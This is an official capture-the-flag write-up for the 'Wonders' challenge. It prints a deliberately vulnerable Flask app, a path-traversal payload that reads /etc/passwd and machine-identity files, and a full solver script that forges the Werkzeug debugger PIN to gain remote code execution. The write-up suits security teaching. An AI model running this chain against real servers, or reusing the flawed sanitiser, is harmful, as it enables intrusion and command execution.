

        <font size="10">Wonders</font>

26th<sup>th</sup> March 2024 

Author : Vignesh A

​Difficulty: <font color=orange>Easy</font>

Classification: Official

# [Synopsis](#synopsis)

- Pin Protected - Path Traversal allows for Remote Code Execution (RCE) through the Console page, exploiting a vulnerability in the input validation mechanism.

## Description

* This challenge involves exploiting a vulnerability in pin-protected functionality to perform a path traversal attack, leading to remote code execution (RCE) via the Console page.


## Skills Required

- Understanding of Python and Flask
- Understanding of path traversal vulnerabilities
- Familiarity with remote code execution (RCE) techniques

## Skills Learned

- Chaining Path Traversal to Achieve RCE
- Developing an exploit from a known vulnerability


## Application Overview


At `challenge/app.py` we see the python app.py.

```
from flask import Flask, render_template, request,url_for 
from functools import wraps
import sys
import uuid
import typing as t
import pwd
import os
import werkzeug.debug
from werkzeug.serving import run_simple
import multiprocessing


app = Flask(__name__,template_folder='templates', static_url_path='/static')

def sanitize_file_name(file_name):
    # Split the file_name by "../"
    parts = file_name.split("../")
    
    # Rebuild the file_name with the specified replacements
    # The first part is kept as is (since the first "../" is removed),
    # then join the remaining parts with "." (for subsequent "../" replacements)
    sanitized_file_name = parts[0] + ".".join(parts[1:])
    
    # If the original file_name started with "../", we remove the leading part
    if file_name.startswith("../"):
        sanitized_file_name = sanitized_file_name[1:]  # Remove the first character, which is now incorrect
    
    print(sanitized_file_name)
    return sanitized_file_name

@app.route('/readfile') 
def readfile():
    file_name = request.args.get('file')  # Retrieves the file name from the GET request
    if not file_name:
        return "File name not provided", 400
    
    sanitized_file = sanitize_file_name(file_name)

    # Naively creating the file path - this is vulnerable to path traversal attacks
    file_path = 'static/' + sanitized_file

    try:
        # Attempt to open and read the file
        with open(file_path, 'r') as file:
            content = file.read()
        return content
    except FileNotFoundError:
        return "File not found", 404


# Route for the home page
@app.route('/')
def index():
    return render_template('index.html')

# Route for the about page
@app.route('/blog')
def about():
    return render_template('blog.html')

# Route for the contactpage
@app.route('/contacts')
def contacts():
    return render_template('contacts.html')

def initialize():
    if os.environ.get("WERKZEUG_RUN_MAIN") == "true":
        user = pwd.getpwuid(os.getuid())[0]
        modname = getattr(app, "__module__", t.cast(object, app).__class__.__module__)
        mod = sys.modules.get(modname)
        app_name = getattr(app, "__name__", type(app).__name__)
        mod_file_loc = getattr(mod, '__file__', None)
        mac_addr = str (uuid.getnode ())
        machine_id = werkzeug.debug.get_machine_id()

        print("User: %s\nModule: %s\nModule Name: %s\nApp Location: %s\nMac Address: %s\nWerkzeug Machine ID: %s\n"
            % (user, modname, app_name, mod_file_loc, mac_addr, machine_id))

def start_server():
    run_simple('0.0.0.0', 7777, app, use_reloader=True, use_debugger=True, use_evalex=True)


if __name__ == '__main__':
    proc = multiprocessing.Process(target=start_server)
    proc.start()
    initialize()


```


In the provided Flask application (`app.py`), the debug mode is enabled (`debug=True`). This mode allows developers to access the Werkzeug debugger console, which can be accessed by appending `/console` to the URL.

Additionally, there's a `/readfile` route that reads files from the server's filesystem. However, the implementation of this route is vulnerable to path traversal attacks.

### Path Traversal Vulnerability:


The `/readfile` route retrieves a file based on the `file` parameter from the request's query string. However, it fails to properly sanitize user input, making it susceptible to path traversal attacks.

The `sanitize_file_name` function attempts to mitigate this vulnerability by splitting the input filename using `../` as the delimiter and appending `.` between the segments. However, this approach is insufficient and can be bypassed with careful manipulation.

An attacker can exploit this vulnerability by providing crafted input like `....//...//...//...//...//etc/passwd`, allowing them to read sensitive system files such as the `/etc/passwd` file.

### Gathering System Information:

To exploit the console PIN, two sets of variables, `probably_public_bits` and `private_bits`, are required:

#### `probably_public_bits`:
- `username`: Refers to the user who initiated the Flask session.
- `modname`: Typically designated as flask.app.
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))`: Generally resolves to Flask.
- `getattr(mod, '__file__', None)`: Represents the full path to app.py within the Flask directory (e.g., /usr/local/lib/python3.5/dist-packages/flask/app.py). If app.py is not applicable, try app.pyc.

#### `private_bits`:
- `uuid.getnode()`: Fetches the MAC address of the current machine, with `str(uuid.getnode())` translating it into a decimal format.

To determine the server's MAC address, one must identify the active network interface used by the app (e.g., ens3). In cases of uncertainty, leak `/proc/net/arp` to find the device ID, then extract the MAC address from `/sys/class/net/<device id>/address`.

Conversion of a hexadecimal MAC address to decimal can be performed using Python.

### Example:

```python
# Example MAC address: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

- `get_machine_id()`: Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).


### Generating Debug Pin:

```
import requests 
import time
import re
import hashlib
from itertools import chain


payload1 = 'etc/machine-id'
payload2 = 'proc/net/arp'
payload3 = 'sys/class/net/'
url = 'http://localhost:7777/readfile?file=....//...//...//...//...//' #change your ip to challenge lab ip
payload4 = 'proc/self/cgroup'

def get_mac_adderess():
    r = requests.get(url+payload2)
    #print(r.text)
    pattern = r'\b(?:[0-9]{1,3}\.){3}[0-9]{1,3}\s+\S+\s+\S+\s+\S+\s+\S+\s+(\S+)'
    devices = re.findall(pattern,r.text)
   # print(f'Devices = '+ str(devices))
    payload3 = f'sys/class/net/{devices[0]}/address'
    r = requests.get(url+payload3)
    mac = r.text
    payload = re.sub(":","", mac)
    hex_macaddress = int("0x" + payload,16)
    #print(hex_macaddress)
    return hex_macaddress
    

def get_machine_id():
    r = requests.get(url + payload1)
    machine_id = r.text.rstrip('\n')
    # print("Actual:",machine_id)
    r = requests.get(url + payload4)
    x = r.text
    extracted_string = x.split(":")[-1]
    cgroup = extracted_string.split("/")[-1].rstrip('\n')
    appended = machine_id + cgroup
    # Remove spaces from the appended value
    appended = appended.replace(" ", "")
    return appended


mac_address = str(get_mac_adderess())
appended =get_machine_id()

#print(type(mac_address))  

print("MAC Address:", mac_address)
print("Appended Value:", appended.replace(" ", ""))


probably_public_bits = [
    'Alex',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]


private_bits = [
    mac_address,  # str(uuid.getnode()),  /sys/class/net/ens33/address
    appended  # get_machine_id(), /etc/machine-id
]


# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

```
Using this solver.py, we can generate the PIN as illustrated in the image below:


### Conclusion:

By exploiting the path traversal vulnerability and gathering system information, we successfully generate the debug pin required to access the Werkzeug debugger console remotely. This allows us to execute arbitrary commands on the server, demonstrating the severity of the security flaw in the Flask application.
